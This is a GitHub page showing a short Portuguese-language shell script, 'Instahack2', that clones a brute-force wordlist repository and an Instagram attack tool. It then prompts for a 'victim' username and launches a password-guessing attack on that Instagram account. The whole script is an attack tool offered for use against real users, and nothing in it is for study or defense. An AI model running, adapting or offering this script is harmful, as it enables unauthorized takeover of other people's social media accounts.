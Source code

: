 Skip to content
 MRX8001 / Instahack2
Code Issues 0 Pull requests 1 Projects 0 Actions Wiki Security 0 Pulse Community
Instahack2/instahack2.sh
@MRX8001 MRX8001 new script
a1869df on 21 Jun 2019
Executable File  42 lines (41 sloc)  948 Bytes
 
#!/usr/bin/bash/
#
#
if [ "oi" = "1" ];then
find Brute-Force; find Instagram
        echo "Pastas foram encontradas"
else
        echo "ERRO: Pastas nao foram encontradas"
git clone https://github.com/MRX8001/Brute-Force
git clone https://github.com/Pure-L0G1C/Instagram
fi
#
#
pkg install python3
cd Instagram
clear
figlet Instahack2
#
#MENU
echo
echo "========================================================="
echo "= \033[1;36m[\033[1;36m1]>> \033[1;33mInvadir uma conta"
echo "= \033[1;36m[\033[1;36m2]>> \033[1;33mSair"
echo "========================================================="
echo
read -p "[+]=>" instahack
#
if [ "$instahack" = "1" ];then
clear
figlet Instahack2
echo "\033[1;32m\n\n[+]=>DIGITE OU COLE O NOME DA VÍTIMA exe:(pedro1234)"
#
read -p "[+]=>" vitima
#
#Iniciando o ataque
clear
figlet START
pip3 install -r requirements.txt
python3 instagram.py $vitima /$HOME/instahack2/Brute-Force/wordlist/wordlist.txt -m 3
fi
exit

